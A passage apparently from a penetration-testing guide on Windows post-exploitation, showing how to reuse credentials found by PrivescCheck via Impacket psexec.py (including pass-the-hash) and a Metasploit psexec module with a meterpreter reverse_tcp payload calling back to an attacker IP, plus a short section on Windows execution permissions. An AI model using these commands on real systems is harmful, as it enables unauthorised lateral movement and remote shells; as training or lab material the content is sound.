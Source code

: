 Migrating to `explorer.exe` (or other long-running process) reduces chance of losing session when the original process exits.

---

## 8) If PrivescCheck finds WinLogon / credentials

If the script reports credentials (plain or hashed), you can attempt to use them to access SMB/RPC services on the same host or other hosts.

### Example: Impacket `psexec.py` usage (lateral auth/execution)

> Tool: Impacket (examples repo) — `psexec.py` allows executing commands/services remotely using valid creds.

**With plaintext password:**

```bash
python3 /usr/share/doc/impacket/examples/psexec.py Administrator@<target-ip> -hashes '' -nooutput
# or
python3 psexec.py Administrator@<target-ip> <password>
```

**With NTLM hash (pass-the-hash)**:

```bash
python3 psexec.py Administrator@<target-ip> -hashes :<NTLM_HASH>
# Example
python3 psexec.py Administrator@10.10.10.5 -hashes :aad3b435b51404eeaad3b435b51404ee:8801...
```

**Or use Metasploit:**

```text
use exploit/windows/smb/psexec
set RHOSTS <target-ip>
set SMBUser Administrator
set SMBPass <password>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
exploit
```

> Always test `psexec` in a lab first — some environments log and alert.

---

## 9) Permissions & “chmod” question (Windows)

* **Linux:** `chmod +x script.sh` sets execute bits.
* **Windows:** No `chmod`; execution permission is governed by the NTFS ACL and file extension. To “make executable” on Windows:

  * Ensure file has an executable extension (`.exe`, `.ps1`, `.vbs`, `.bat`).
  * If ACLs block execution, change permissions using `icacls` (requires rights):
